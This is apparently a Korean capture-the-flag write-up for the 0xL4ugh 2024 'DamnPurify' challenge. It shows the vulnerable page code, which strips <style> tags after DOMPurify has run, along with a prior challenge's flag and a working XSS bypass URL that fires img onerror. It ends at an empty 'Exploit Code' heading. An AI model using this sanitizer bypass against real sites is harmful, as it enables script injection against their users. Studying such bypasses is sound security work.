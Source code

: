 ### Flag     
0xL4ugh{0ohh_You_Brok3_My_Wh1te_List!!!}    
      
<a id="DamnPurify"></a>     
      
# DamnPurify         
      
25 solves / 397 points
       
index.php       
```html
<!DOCTYPE html>
<html lang="en" dir="ltr">
  <head>
    <script src="https://cure53.de/purify.js"></script>
  </head>
  <body>
<script>
    window.onload = () => {
        const params = new URLSearchParams(location.search);
        injection = params.get("xss");
    if (injection)
{
    injection = DOMPurify.sanitize(injection);
    document.body.innerHTML = injection.replace(/<style>.*<\/style>/gs, "");
}
    };
</script>

</html>
```
XSS 공격을 막기 위해 `DOMPurify`를 사용하고 있다. 하지만, `<style>` 태그를 포함하여 안에 요소들은 `""` 빈 문자열 형태로 변환되고 `document.body.innerHTML`에 들어가기 때문에 이를 충분히 우회할 수 있다.    
      
<img src="/assets/images/ctf/2024/0xL4ugh/Damn-Purify/1.JPG">     
             
`http://20.115.83.90:1337/?xss=<svg><style></style><a id="</style><img src=x onerror=javascript:alert(1)>">`    
      
`<style></style>` 태그가 사라지면서 `<img>` 태그가 `"` 밖으로 나오게 되면서 XSS 취약점이 발생한다.   

### Exploit Code           
      